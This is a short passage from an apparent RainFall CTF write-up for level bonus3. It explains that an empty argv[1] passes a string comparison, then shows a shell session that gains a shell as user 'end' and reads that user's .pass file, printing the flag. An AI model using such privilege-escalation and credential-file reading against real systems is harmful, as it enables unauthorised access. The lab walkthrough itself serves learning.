 Knowing that, if we input an empty string as `argv[1]`, `buffer[0]` will be equal to `0` and so will be `argv[1]`.

When we do that, we get a shell..

```shell-session
bonus3@RainFall:~$ ./bonus3 ""
$ whoami
end
$ cat /home/user/end/.pass
3321b6f81659f9a71c76616f606e4b50189cecfea611393d5d649f75e157353c
```


